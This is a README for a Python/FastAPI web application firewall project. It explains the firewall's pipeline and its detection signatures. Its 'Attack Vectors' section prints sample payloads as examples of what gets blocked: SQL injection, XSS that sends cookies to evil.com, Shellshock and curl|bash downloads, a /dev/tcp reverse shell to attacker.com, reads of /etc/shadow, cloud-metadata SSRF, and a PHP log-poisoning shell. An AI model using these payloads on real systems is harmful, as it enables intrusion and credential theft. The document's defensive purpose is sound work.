






<div align="center">

<br/>

# 🛡️ OUTLOOP WAF

<br/>

**Edge-Native Web Application Firewall & Security Operations Platform**

*Perimeter-grade threat detection. Sub-5ms verdict. Zero infrastructure.*

<br/>

[](https://www.python.org/)
[](https://fastapi.tiangolo.com/)
[](https://github.com/obstinix/outloop-waf/tree/main/tests)
[](https://outloop-waf.vercel.app)
[](https://owasp.org/Top10/)
[](https://github.com/obstinix/outloop-waf/blob/main/LICENSE)

<br/>

[](https://outloop-waf.vercel.app/#rules)
[]()
[]()
[](https://github.com/obstinix/outloop-waf/releases)
[](https://github.com/obstinix/outloop-waf/commits/main)

<br/>

> **"Every packet is a suspect until proven clean."**
> 
> OUTLOOP enforces zero-trust inspection at the perimeter — intercepting, decoding, and adjudicating every inbound request before it reaches your application layer.

<br/>

| | |
|:---:|:---:|
| [](https://outloop-waf.vercel.app) | [](https://outloop-waf.vercel.app/#playground) |

<br/>

</div>

---

## 🗺️ Navigation

| Module | Live URL | Description |
|--------|----------|-------------|
| 🖥️ **SOC Dashboard** | [outloop-waf.vercel.app](https://outloop-waf.vercel.app/) | Real-time threat telemetry, packet counters, attack globe |
| 🔬 **Payload Sandbox** | [/#playground](https://outloop-waf.vercel.app/#playground) | Interactive attack simulator — no curl or Postman required |
| 📡 **Threat Stream** | [/#threats](https://outloop-waf.vercel.app/#threats) | Live SSE feed of blocked exploits with severity classification |
| 🔎 **Signature Explorer** | [/#rules](https://outloop-waf.vercel.app/#rules) | Searchable database of all 57 compiled WAF signatures |
| 🔄 **Request Pipeline** | [/#pipeline](https://outloop-waf.vercel.app/#pipeline) | Interactive lifecycle diagram from ingress to verdict |
| ⚙️ **Admin Workspace** | [/#admin](https://outloop-waf.vercel.app/#admin) | Authenticated IP ban console, stats viewer, rule management |
| 💻 **GitHub Repository** | [obstinix/outloop-waf](https://github.com/obstinix/outloop-waf) | Source code, issues, contributions, CI results |
| 📖 **API Docs (Swagger)** | [/api/docs](https://outloop-waf.vercel.app/api/docs) | OpenAPI interactive documentation |

---

## Table of Contents

- [Threat Intelligence Overview](#threat-intelligence-overview)
- [System Architecture](#system-architecture)
- [Detection Engine Internals](#detection-engine-internals)
- [Attack Vectors & Countermeasures](#attack-vectors--countermeasures)
- [Technology Stack](#technology-stack)
- [Feature Breakdown](#feature-breakdown)
- [API Reference](#api-reference)
- [Deployment & Infrastructure](#deployment--infrastructure)
- [Getting Started](#getting-started)
- [Project Structure](#project-structure)
- [Contributing](#contributing)
- [License](#license)

---

## Threat Intelligence Overview

OUTLOOP WAF is an **edge-native perimeter proxy** and **Security Operations Center (SOC) platform**. It interposes between the public internet and your application, evaluating every inbound HTTP request through a multi-layered inspection pipeline before it reaches any route handler.

Threats are decoded, pattern-matched, logged, and blocked in **under 5ms** — with zero overhead for clean traffic.

### Core Defense Properties

| Property | Specification |
|----------|---------------|
| 🛡️ **Inspection Model** | Zero-trust — every request inspected regardless of source |
| ⚡ **Detection Latency** | Sub-5ms via pre-compiled regex engine |
| 🔬 **Sandbox Testing** | Live browser-based payload evaluation |
| 📡 **Telemetry Protocol** | Server-Sent Events (SSE) — no polling, no WebSocket overhead |
| 🧠 **Signature Coverage** | 57 active patterns across 7 attack categories |
| ☁️ **Deployment Model** | Serverless-native — Vercel edge, 100+ PoPs globally |
| 🔒 **Admin Surface** | Key-authenticated admin API with IP ban enforcement |
| 📊 **Observability** | Prometheus `/api/metrics` endpoint + live SOC counters |

### Signature Distribution

| Category | Signatures | Severity Profile | CWE Mapping |
|----------|-----------|-----------------|-------------|
| SQL Injection | 13 | CRITICAL / HIGH | CWE-89 |
| Cross-Site Scripting | 13 | HIGH / MEDIUM | CWE-79 |
| Path Traversal | 9 | HIGH / MEDIUM | CWE-22 |
| Command Injection | 8 | CRITICAL | CWE-77 |
| SSRF / Metadata Probe | 7 | HIGH | CWE-918 |
| Local File Inclusion | 5 | HIGH | CWE-98 |
| Header Attacks (CRLF) | 2 | MEDIUM | CWE-113 |
| **Total** | **57** | 14 CRITICAL · 22 HIGH · 15 MEDIUM · 6 LOW | OWASP Top 10 |

---

## System Architecture

### 1. High-Level Ingress Model

The following diagram illustrates how OUTLOOP sits between the public internet and your application layer, operating as the single inspection chokepoint for all inbound traffic.



> All external actors — browsers, scanners, bots — pass through the same WAF middleware layer. There is no trusted bypass path.

---

### 2. Request Processing Pipeline

Every inbound request traverses these sequential gates. A block at any gate issues a `403 Forbidden` and emits an SSE threat event — the request never reaches application code.

```mermaid
flowchart TD
    REQ([📡 Inbound HTTP Request]) --> PARSE

    subgraph GATE["EDGE MIDDLEWARE LAYER"]
        PARSE[Parse Request\nHeaders · URI · Body]
        RL{Rate Limit\nEvaluator}
        BL{Blocklist\nPerimeter Check}
    end

    subgraph ENGINE["WAF ASSESSMENT ENGINE"]
        DECODE[Multi-Pass URL Decoder\nURL → Double URL → Base64 → Hex]
        REGEX[Regex Signature Evaluator\n57 compiled patterns]
        MATCH{Threat\nMatched?}
    end

    subgraph BLOCK["BLOCK PIPELINE"]
        B403[HTTP 403 Forbidden]
        LOG[Emit SSE Threat Event\nTimestamp · Rule ID · Severity · IP]
        INCR[Increment Threat Counter]
    end

    subgraph FORWARD["FORWARD PIPELINE"]
        HDR[Append X-WAF-Status: clean\nX-Request-ID: uuid]
        ROUTE[Invoke FastAPI Route Handler]
        RESP([✅ 200 Response])
    end

    PARSE --> RL
    RL -->|Rate Exceeded| B403
    RL -->|OK| BL
    BL -->|IP Banned| B403
    BL -->|OK| DECODE
    DECODE --> REGEX
    REGEX --> MATCH
    MATCH -->|YES| B403
    MATCH -->|NO| HDR
    B403 --> LOG
    LOG --> INCR
    HDR --> ROUTE
    ROUTE --> RESP

    style GATE fill:#1a1a2e,stroke:#4a90d9
    style ENGINE fill:#16213e,stroke:#e94560
    style BLOCK fill:#2d1b1b,stroke:#e94560
    style FORWARD fill:#1b2d1b,stroke:#4caf50
```



> The five inspection stages — Inbound HTTP → Rate Limit → Blocklist → Multi-Decoder → Regex Match → Verdict — map directly to the interactive pipeline visualization at [/#pipeline](https://outloop-waf.vercel.app/#pipeline).

---

### 3. Multi-Layer Security Stack

OUTLOOP implements **defense-in-depth** — each layer independently capable of blocking a threat class.

```mermaid
flowchart TD
    subgraph LAYER1["Layer 1 — Network Perimeter"]
        VCL[Vercel Edge Network\nDDoS absorption · TLS termination]
    end

    subgraph LAYER2["Layer 2 — Rate Limiting"]
        RL[Sliding-Window Rate Limiter\n20 req/burst · per-IP enforcement]
    end

    subgraph LAYER3["Layer 3 — IP Reputation"]
        BL[Blocklist Perimeter Check\nAdmin-managed deny list · in-memory store]
    end

    subgraph LAYER4["Layer 4 — Payload Inspection"]
        DEC[Multi-Pass URL Decoder\n4 normalization passes]
        REG[Regex Signature Engine\n57 compiled patterns]
    end

    subgraph LAYER5["Layer 5 — Application Logic"]
        APP[FastAPI Route Handlers\nAuthenticated via X-Admin-Key]
    end

    LAYER1 -->|Clean traffic| LAYER2
    LAYER1 -->|Rate-exceeded| BLOCK1([403])
    LAYER2 -->|OK| LAYER3
    LAYER2 -->|Exceeded| BLOCK1
    LAYER3 -->|OK| LAYER4
    LAYER3 -->|Banned IP| BLOCK1
    LAYER4 -->|Clean| LAYER5
    LAYER4 -->|Threat| BLOCK2([403 + SSE Event])

    style LAYER1 fill:#0d1117,stroke:#30363d
    style LAYER2 fill:#0d1117,stroke:#e3b341
    style LAYER3 fill:#0d1117,stroke:#f0883e
    style LAYER4 fill:#0d1117,stroke:#e94560
    style LAYER5 fill:#0d1117,stroke:#3fb950
```



> Each layer uses a different blocking mechanism: DDoS absorption at the CDN edge, rate enforcement by sliding window, IP reputation by admin-curated blocklist, and deep payload analysis by the regex engine.

---

### 4. API Gateway Structure

The route module architecture separating public endpoints, WAF-gated secure routes, and authenticated admin surfaces.



> `waf/middleware.py` intercepts the ASGI request scope before any route handler executes. The engine runs synchronously in the middleware hot path — ruling on every request in a single pass.

---

### 5. SSE Real-Time Threat Feed

How blocked attack events propagate from the WAF middleware to the live dashboard without polling.



> The SSE stream uses `text/event-stream` content type with automatic client reconnection. No WebSocket handshake, no polling loop — the server pushes events as they occur.

---

### 6. Authentication & Admin Authorization

All admin operations require a valid `X-Admin-Key` header. The WAF middleware inspects the header before the admin route handler is reached.

```mermaid
flowchart TD
    ADMIN([Admin User]) --> INPUT[Enter X-Admin-Key\nin Dashboard Workspace]
    INPUT --> REQ_A[Request to /api/admin/*\nHeader: X-Admin-Key]
    REQ_A --> MW_A{WAF Middleware\nInspect Payload First}
    MW_A -->|Payload clean| AUTH{Validate\nX-Admin-Key}
    AUTH -->|Invalid or Missing| E401[401 Unauthorized]
    AUTH -->|Valid| PRIV{Requested Operation}
    PRIV -->|Read Stats| STATS[Return engine metrics]
    PRIV -->|Ban IP| BAN[Add IP to in-memory blocklist]
    PRIV -->|List Rules| RULES[Return 57 signatures + patterns]
    STATS & BAN & RULES --> RESP_A([200 OK + JSON payload])
    E401 --> END([Client receives error])

    style AUTH fill:#1a1a2e,stroke:#e94560
    style E401 fill:#2d1b1b,stroke:#e94560
```



> The admin key is validated server-side on every request. There is no session token — stateless key authentication per call.

---

### 7. Frontend–Backend Communication Model

Full sequence of browser interactions from page load through payload testing to SSE subscription.



---

### 8. In-Memory State Model

The data structures maintained by the running WAF engine — no external database required for core operation.



---

## Detection Engine Internals

### Multi-Pass Payload Decoder

Before any regex evaluation, OUTLOOP normalizes all input through a 4-pass decoding chain. This eliminates the most common WAF evasion technique: encoding payloads to bypass string matching.



> An attacker submitting `%2527%2520UNION%2520SELECT` (double-encoded SQL) will be caught at Pass 2. A base64-encoded `<script>` tag is caught at Pass 3. The engine sees the canonical payload regardless of encoding layer.

---

## Attack Vectors & Countermeasures

### SQL Injection — CWE-89 · OWASP A03:2021

SQL Injection allows attackers to alter query logic by embedding control characters into database-bound input. It is the most prevalent injection vulnerability class and OUTLOOP's most thoroughly covered category with 13 patterns.

**Mechanics:** When user input is concatenated into a SQL query without parameterization, the database parser treats attacker-supplied tokens as query syntax rather than data literals.

**Attack Taxonomy:**

```sql
-- ─── 1. Authentication Bypass (Tautology) ────────────────────────────────
-- Input into username field: admin' --
-- Resulting server-side query:
SELECT * FROM users WHERE username='admin' --' AND password='anything'
-- The double-dash comment operator nullifies the password check entirely.

-- ─── 2. UNION-Based Data Extraction ──────────────────────────────────────
' UNION SELECT username, password, NULL FROM users --
' UNION SELECT table_name, column_name, NULL FROM information_schema.columns --

-- ─── 3. Time-Based Blind SQLi (Boolean Inference) ────────────────────────
'; IF (1=1) WAITFOR DELAY '0:0:5' --   -- MS SQL Server
' AND SLEEP(5) --                       -- MySQL

-- ─── 4. Stacked Query Execution ──────────────────────────────────────────
'; DROP TABLE users; --
'; INSERT INTO admins VALUES ('attacker','pwned'); --

-- ─── 5. Extended Tautology Variants ──────────────────────────────────────
" OR 1=1 --
' OR 'a'='a
' OR 1=1#
```

**OUTLOOP Countermeasures:** 13 patterns covering `UNION SELECT`, `DROP TABLE`, `xp_cmdshell`, `WAITFOR DELAY`, `SLEEP()`, comment stripping (`--`, `/**/`, `#`), and quote-based tautologies. The multi-pass decoder catches `%27%20OR%20%271%27%3D%271` (URL-encoded) and double-encoded variants before evaluation.

**Live Verification:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=' UNION SELECT username, password FROM users --"
# HTTP/1.1 403 Forbidden
# { "blocked": true, "rule_id": "SQLi-007", "severity": "CRITICAL" }
```

---

### Cross-Site Scripting (XSS) — CWE-79 · OWASP A03:2021

XSS enables injection of client-side scripts into pages rendered by other users' browsers. The victim's browser executes the attacker's code under the trust context of the legitimate domain.

**Attack Taxonomy:**

| Type | Vector | Persistence | Server Visibility |
|------|--------|-------------|-------------------|
| **Reflected** | URL parameter echoed in response | None | Yes |
| **Stored** | Payload persisted to DB, served to all users | Permanent | Yes |
| **DOM-Based** | Processed entirely by browser JavaScript | None | No |

```html
<!-- ─── Reflected XSS — Cookie Exfiltration ─────────────────────────────── -->
<script>fetch('https://evil.com/steal?c='+document.cookie)</script>

<!-- ─── Event Handler Injection — Base64-Encoded Evasion ─────────────────── -->


<!-- ─── Protocol-Based Injection ─────────────────────────────────────────── -->
<a href="javascript:document.location='//evil.com/?'+document.cookie">click</a>

<!-- ─── SVG Vector (bypasses naive script-tag filters) ───────────────────── -->
<svg onload="fetch('//evil.com?d='+localStorage.getItem('token'))">

<!-- ─── Data URI Injection ───────────────────────────────────────────────── -->
<iframe src="data:text/html,<script>parent.document.cookie</script>">

<!-- ─── Polyglot XSS (works in HTML and JS contexts simultaneously) ──────── -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//
```

**OUTLOOP Countermeasures:** 13 patterns targeting `<script>` tags, inline event handlers (`onerror=`, `onload=`, `onclick=`), `javascript:` protocol URIs, `data:text/html` payloads, and SVG/iframe vectors. HTML-entity-encoded variants (`&lt;script&gt;`) are normalized by the decoder before evaluation.

**Live Verification:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=<script>alert(document.cookie)</script>"
# HTTP/1.1 403 Forbidden
# { "blocked": true, "rule_id": "XSS-003", "severity": "HIGH" }
```

---

### Remote Code Execution (RCE) — CWE-78 · CVE-2014-6271

RCE vulnerabilities allow attackers to execute arbitrary operating system commands on the host. The most critical exposure is **Shellshock** (CVE-2014-6271) — a GNU Bash vulnerability where function definitions in environment variables execute attached commands.

**Attack Taxonomy:**

```bash
# ─── Shellshock — User-Agent Header Injection (CVE-2014-6271) ────────────
User-Agent: () { :; }; /bin/bash -c 'cat /etc/passwd | curl -d @- evil.com'

# ─── Command Injection via Query Parameter ────────────────────────────────
https://target.com/ping?host=127.0.0.1; curl http://evil.com/shell.sh | bash

# ─── Backtick Subshell Execution ─────────────────────────────────────────
?query=`wget http://evil.com/malware -O /tmp/m && chmod +x /tmp/m && /tmp/m`

# ─── $() Subshell Syntax ─────────────────────────────────────────────────
?input=$(cat /etc/shadow | base64 | curl -d @- https://evil.com/exfil)

# ─── Reverse Shell via Bash TCP Redirect ─────────────────────────────────
?cmd=bash -i >& /dev/tcp/attacker.com/4444 0>&1
```

**OUTLOOP Countermeasures:** Dedicated Shellshock pattern matching `() { :;`, backtick operators, `$()` subshell syntax, and reverse shell redirect operators. Complementary command injection rules cover `;`, `|`, `&&`, `||` paired with shell commands (`cat`, `wget`, `curl`, `bash`, `sh`).

**Live Verification:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=()%20{%20:;%20};%20/bin/bash%20-i"
# HTTP/1.1 403 Forbidden
# { "blocked": true, "rule_id": "RCE-001", "severity": "CRITICAL" }
```

---

### Path Traversal — CWE-22

Path traversal attacks navigate relative directory sequences (`../`) to access files outside the intended web root — commonly targeting `/etc/passwd`, `/etc/shadow`, `.env` files, and private keys.

**Attack Taxonomy:**

```
# ─── Standard Unix Traversal ─────────────────────────────────────────────
../../../../etc/passwd
../../../../etc/shadow

# ─── Null Byte Injection (bypasses extension filters in legacy PHP) ───────
../../../../etc/passwd%00.jpg

# ─── Windows Directory Traversal ─────────────────────────────────────────
..\..\..\..\windows\system32\drivers\etc\hosts

# ─── URL-Encoded Traversal (single-pass decoder bypass) ──────────────────
%2e%2e%2f%2e%2e%2fetc%2fpasswd

# ─── Double URL-Encoded Traversal (double-pass decoder bypass) ───────────
%252e%252e%252fetc%252fpasswd

# ─── Sensitive Targets ────────────────────────────────────────────────────
/proc/self/environ          # Environment variables including secrets
/.git/config                # Git config leaking remote URLs
/.env                       # Application secrets and API keys
/var/www/html/../config.php # Web application config
```

**OUTLOOP Countermeasures:** 9 patterns covering `../`, `..\`, all URL encoding variants, double-encoding, null-byte injection, and direct sensitive path references (`.env`, `.git`, `passwd`, `shadow`, `system32`).

**Live Verification:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=../../../../etc/passwd"
# HTTP/1.1 403 Forbidden
# { "blocked": true, "rule_id": "PATH-002", "severity": "HIGH" }
```

---

### Server-Side Request Forgery (SSRF) — CWE-918 · OWASP A10:2021

SSRF coerces the server into making HTTP requests to internal network addresses on behalf of the attacker. In cloud environments, the primary risk is **metadata endpoint abuse** — AWS, GCP, and Azure all expose unauthenticated instance credential endpoints at link-local IPs (`169.254.x.x`).

**Attack Taxonomy:**

```
# ─── AWS EC2 Instance Metadata (IAM Credential Theft) ────────────────────
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/user-data

# ─── Google Cloud Metadata ────────────────────────────────────────────────
http://metadata.google.internal/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# ─── Internal Network Probing (firewall bypass) ───────────────────────────
http://192.168.1.1/admin          # LAN gateway admin panel
http://10.0.0.1:8080/internal-api # Internal microservice
http://localhost:6379/            # Redis without auth

# ─── Loopback Abuse ───────────────────────────────────────────────────────
http://127.0.0.1:8000/api/admin   # Bypass external auth via localhost trust
http://[::1]:8000/admin           # IPv6 loopback variant
```

**OUTLOOP Countermeasures:** 7 patterns blocking `169.254.169.254`, `metadata.google.internal`, RFC-1918 private ranges (`10.x.x.x`, `172.16-31.x.x`, `192.168.x.x`), and loopback addresses (`localhost`, `127.0.0.1`, `::1`).

**Live Verification:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=http://169.254.169.254/latest/meta-data/"
# HTTP/1.1 403 Forbidden
# { "blocked": true, "rule_id": "SSRF-001", "severity": "HIGH" }
```

---

### Command Injection — CWE-77

Command injection occurs when user input is passed unsanitized to a system shell invocation — common in applications calling `os.system()`, `subprocess.run()`, or PHP `exec()` with user-controlled arguments.

**Attack Taxonomy:**

```bash
# ─── Semicolon Chaining ───────────────────────────────────────────────────
127.0.0.1; cat /etc/shadow

# ─── Pipe to Attacker ────────────────────────────────────────────────────
127.0.0.1 | curl -d "$(cat /etc/passwd)" https://evil.com

# ─── AND/OR Shell Operator Chaining ──────────────────────────────────────
127.0.0.1 && wget http://evil.com/backdoor.sh -O /tmp/b && bash /tmp/b

# ─── Subshell Execution ───────────────────────────────────────────────────
$(whoami)
`id && uname -a`

# ─── Environment Variable Injection ──────────────────────────────────────
$PATH/../../../bin/sh
${IFS}cat${IFS}/etc/passwd
```

**OUTLOOP Countermeasures:** 8 patterns covering shell chaining operators (`;`, `|`, `&&`, `||`), backtick and `$()` subshell execution, and signature matching for shell utilities (`cat`, `wget`, `curl`, `whoami`, `id`, `uname`, `ps`, `ls`).

**Live Verification:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=\$(whoami)"
# HTTP/1.1 403 Forbidden
# { "blocked": true, "rule_id": "CMD-001", "severity": "CRITICAL" }
```

---

### Local File Inclusion (LFI) — CWE-98

LFI allows attackers to include server-side files in HTTP responses. Commonly escalates to RCE via **log poisoning**: inject PHP code into a log file through a controlled field (e.g., User-Agent), then include the log via LFI to execute it.

**Attack Taxonomy:**

```
# ─── Direct Sensitive File Inclusion ─────────────────────────────────────
?page=../../../../etc/passwd
?file=../config/database.php

# ─── Log Poisoning — Step 1: Inject PHP into User-Agent ──────────────────
User-Agent: <?php system($_GET['cmd']); ?>
# Step 2: Include the Apache access log via LFI:
?page=../../../../var/log/apache2/access.log&cmd=id

# ─── PHP Wrapper Abuse ────────────────────────────────────────────────────
?file=php://filter/convert.base64-encode/resource=/etc/passwd
?file=php://input                  # With PHP code in POST body
?file=phar://uploaded-archive.zip  # PHAR deserialization

# ─── Session File Inclusion ───────────────────────────────────────────────
?page=../../../../var/lib/php/sessions/sess_[PHPSESSID]
```

**OUTLOOP Countermeasures:** 5 patterns targeting `include()`, `require()`, `php://` wrapper schemes, `phar://`, and direct references to sensitive system files.

---

## Technology Stack

### Python 3.9+ — Core WAF Runtime

The WAF engine is written in Python 3.9+ specifically for its `re` module's `re.compile()` — patterns are compiled once at application startup into finite automata, allowing O(n) string evaluation regardless of pattern complexity. All 57 signatures are pre-compiled and held in memory for the lifetime of the serverless function instance.

Key Python features used: `asyncio` for the ASGI async request lifecycle, `re.compile()` with `re.IGNORECASE` flags for case-insensitive pattern matching, `urllib.parse.unquote()` and `base64.b64decode()` for the multi-pass decoder chain, and `uuid.uuid4()` for per-request tracing identifiers.

### FastAPI 0.109+ — ASGI Web Framework

FastAPI provides the ASGI application server and the `BaseHTTPMiddleware` hook point used by `waf/middleware.py`. Every inbound request passes through the middleware's `dispatch()` method before any route handler is invoked. FastAPI also auto-generates the OpenAPI schema served at `/api/docs` and `/api/redoc` from route decorator metadata.

The middleware intercept pattern:

```python
class WAFMiddleware(BaseHTTPMiddleware):
    async def dispatch(self, request: Request, call_next):
        # All inspection logic executes here — before any route handler
